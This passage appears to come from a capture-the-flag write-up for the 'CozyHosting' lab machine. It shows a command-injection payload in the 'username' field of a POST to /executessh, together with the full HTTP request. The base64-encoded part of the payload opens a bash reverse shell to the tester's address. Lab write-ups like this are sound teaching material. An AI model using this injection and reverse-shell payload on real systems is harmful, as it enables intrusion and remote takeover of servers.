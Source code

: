 ![](img/cozyhosting10.png)

Finally, a reverse shell is obtained.

*payload*: `host=cozyhosting.htb&username=asd||{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx}|{base64,-d}|bash;id`

```http
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Origin: http://cozyhosting.htb
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=05FA4B05BE2E1F2D350EC8DE97779E7A
Upgrade-Insecure-Requests: 1

host=cozyhosting.htb&username=asd||{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx}|{base64,-d}|bash;id
```

![](img/cozyhosting11.png)
